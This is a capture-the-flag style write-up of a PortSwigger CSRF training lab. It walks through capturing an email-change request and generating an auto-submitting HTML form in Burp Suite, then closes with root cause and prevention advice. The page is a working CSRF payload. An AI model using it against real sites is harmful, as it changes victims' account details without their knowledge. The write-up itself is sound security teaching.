








### Lab 26: CSRF Vulnerability with No Defenses

**Category:** Cross-Site Request Forgery (CSRF)  
**Difficulty:** Apprentice  
**Platform:** PortSwigger Web Security Academy

### Overview

This lab demonstrates a web application that is vulnerable to **Cross-Site Request Forgery (CSRF)** because the email    update functionality lacks any CSRF protection.
The objective is to create a malicious HTML page that silently submits a forged request to change the victim's email address. When the victim visits the attacker-controlled page while logged in, the browser automatically includes the victim's session cookie, causing the email address to be changed without the victim's knowledge.

### Objective

Exploit the CSRF vulnerability to change the victim's email address using the provided exploit server.

## Step 1: Log in to the Application

Log in using the provided credentials:

- **Username:** `wiener`
- **Password:** `peter`

After logging in, navigate to **My Account**.



The account page displays the current email address along with a form that allows the user to update it.



## Step 2: Capture the Email Change Request

Enter a new email address and click **Update email** while Burp Suite is intercepting traffic or locate the request in **Proxy → HTTP history**.

The intercepted request looks similar to:

```http
POST /my-account/change-email HTTP/2
Host: lab-id.web-security-academy.net
Cookie: session=...
Content-Type: application/x-www-form-urlencoded

email=xyz@gmail.com
```

Notice that the request only contains:

- Session cookie
- Email parameter

There is **no CSRF token**, making the endpoint vulnerable.




## Step 3: Generate a CSRF Proof of Concept

Send the request to **Repeater**.

Right-click inside the request and select:

```text
Engagement tools
└── Generate CSRF PoC
```


Burp automatically generates an HTML page that recreates the POST request.



The generated HTML is:

```html
<html>
<body>
<form action="https://LAB-ID.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="abcd@gmail.com">
    <input type="submit" value="Submit request">
</form>

<script>
history.pushState('', '', '/');
document.forms[0].submit();
</script>

</body>
</html>
```

### Why it works

- The hidden input stores the attacker's chosen email.
- `document.forms[0].submit()` automatically submits the form.
- The victim never needs to click anything.
- The browser automatically includes the victim's session cookie.


## Step 4: Copy the HTML to the Exploit Server

Open the **Exploit Server** provided by the lab.

Paste the generated HTML into the **Body** field.



Click:

1. **Store**
2. **View exploit** (optional)
3. **Deliver exploit to victim**


## Step 5: Deliver the Exploit

After clicking **Deliver exploit to victim**, the victim's browser loads the malicious page.

The hidden form is automatically submitted and the victim's email address is changed without any user interaction.


### Result

The lab is solved successfully.




### Why the Attack Works

The application accepts authenticated POST requests without verifying whether they originated from the legitimate website.

Since browsers automatically attach session cookies to requests sent to the target domain, the forged request is processed exactly like a legitimate one.


### Root Cause

The application has **no CSRF protection**, specifically:

- No CSRF token
- No Origin validation
- No Referer validation
- Session cookies are automatically trusted


### Impact

An attacker can force authenticated users to perform unintended actions, including:

- Changing account details
- Updating passwords
- Making purchases
- Transferring funds
- Modifying sensitive settings

without the victim's knowledge.


### Prevention

Applications should implement multiple layers of defense:

- Use unpredictable CSRF tokens for all state-changing requests.
- Validate the `Origin` and `Referer` headers.
- Configure session cookies with `SameSite=Lax` or `SameSite=Strict`.
- Require re-authentication for sensitive actions.
- Avoid relying solely on cookies for authentication.


### Key Takeaways

- Any state-changing request that relies only on a session cookie is a potential CSRF target.
- Browsers automatically include cookies in cross-site requests.
- Burp Suite's **Generate CSRF PoC** feature can quickly build a working exploit.
- CSRF tokens and server-side validation are the primary defenses against CSRF attacks.
